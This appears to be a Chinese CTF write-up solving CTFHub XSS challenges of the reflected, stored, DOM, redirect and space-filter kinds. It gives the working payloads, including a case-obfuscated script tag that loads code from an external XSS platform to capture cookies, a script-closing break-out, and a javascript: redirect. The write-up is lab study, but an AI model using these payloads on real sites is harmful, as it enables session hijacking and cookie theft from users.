 注册XSS平台，填入`<sCRiPt sRC=//xs.pe/s2x></sCrIpT>`复制地址栏地址sendURLtoBot

查看访问记录的cookie

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751620396317-c796bef5-6a30-490d-9a95-083e5a89fb3c.png)

### 存储型
```html
<script>alert(123)</script> #成功
<sCRiPt sRC=//xs.pe/s2x></sCrIpT>
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751620704468-2287fa90-9d56-486d-97c8-69f3c8da60c8.png)

### DOM反射
```html
<script>alert(123)</script> #失败，发现是与原始script闭合导致
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751621490139-6fdd6dac-378c-4405-b7bb-fdcd58824144.png)![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751621533045-ab06f9b7-f6be-43eb-9a50-a9fc881fdbcc.png)

```html
#补全，成功
</script><script>alert(123)</script>
</script><sCRiPt sRC=//xs.pe/s2x></sCrIpT>
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751621678036-2e829e1a-3fc9-4faa-a07f-301b73d5cb5f.png)

### DOM跳转
查看页面代码，可知需要构造`?jumpto=xxx`

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751621913608-a52e051c-37d4-4a62-ba54-b025bc5d05a3.png)

```html
http://challenge-e727a1e5d8b21242.sandbox.ctfhub.com:10800/?jumpto=javascript:alert(123)
```

成功



### 过滤空格
```html
<sCRiPt sRC=//xs.pe/s2x></sCrIpT>
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751638490776-376b45cd-0509-4894-b623-fd32f6c4f82d.png)

```html
<sCRiPt/SrC=//xs.pe/s2x> #成功
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751638653686-f988a8f3-8d8e-4c4c-a9ed-47d7299747b8.png)
